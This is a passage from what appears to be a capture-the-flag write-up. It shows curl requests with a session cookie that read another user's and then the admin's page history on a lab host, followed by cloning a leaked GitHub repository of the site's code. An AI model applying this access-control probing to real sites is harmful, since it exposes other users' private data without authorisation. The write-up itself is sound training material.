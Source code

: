 
Success! We have found a `parameter`. Manually checking what our response was when passing `platonicgerm` seems to show the page history of the user on the site.

```
❯ curl http://192.168.0.83/history.php?user=platonicgerm -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   129  100   129    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
Pages visited by user platonicgerm

home

about

home

about

home

home

about
```

Maybe we can see the history of the `admin` user?

```
❯ curl http://192.168.0.83/history.php?user=admin -b PHPSESSID=8dcclmcf7jn9bhm78cgmpb1gcc | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    80  100    80    0     0  80000      0 --:--:-- --:--:-- --:--:-- 80000
Pages visited by user admin

https://github.com/cyberbot75/keyring
```

It looks like the `admin` user visited a github page. We can clone this repository on our system to examine the code.

```
❯ git clone https://github.com/cyberbot75/keyring
Cloning into 'keyring'...
remote: Enumerating objects: 21, done.
remote: Counting objects: 100% (21/21), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 21 (delta 9), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (21/21), 6.26 KiB | 6.26 MiB/s, done.
Resolving deltas: 100% (9/9), done.
```

Looking inside, we appear to have the files that make up the site.
